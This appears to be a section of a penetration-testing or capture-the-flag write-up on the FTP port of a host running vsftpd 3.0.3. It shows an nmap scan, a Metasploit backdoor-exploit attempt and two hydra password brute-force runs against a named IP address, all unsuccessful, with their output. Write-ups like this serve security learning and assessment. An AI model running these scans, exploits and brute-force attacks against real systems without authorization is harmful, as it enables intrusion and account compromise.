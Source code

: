 ## FTP (:21)

Although I know v3.0.3 should be patched - I've tried some `metasploit` and `hydra` attacks nevertheless. Didn't get me anything, though.

```sh
$ nmap -A 34.253.63.1 -p 21

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 10:50 CEST
Nmap scan report for ec2-52-19-2-77.eu-west-1.compute.amazonaws.com (34.253.63.1)
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.21 seconds

```

```sh
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 34.253.63.1:21 - Banner: 220 (vsFTPd 3.0.3)
[*] 34.253.63.1:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

```sh
$ hydra -s 21 -C /usr/share/legion/wordlists/ftp-betterdefaultpasslist.txt -u -f 34.253.63.1 ftp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-25 12:37:25
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking ftp://34.253.63.1:21/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-25 12:37:40
```

```sh
$ hydra -s 21 -C /usr/wl/brutex_ftp_userpass.txt -u -f 34.253.63.1 ftp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-25 12:42:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 75 login tries, ~5 tries per task
[DATA] attacking ftp://34.253.63.1:21/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-25 12:43:16

```
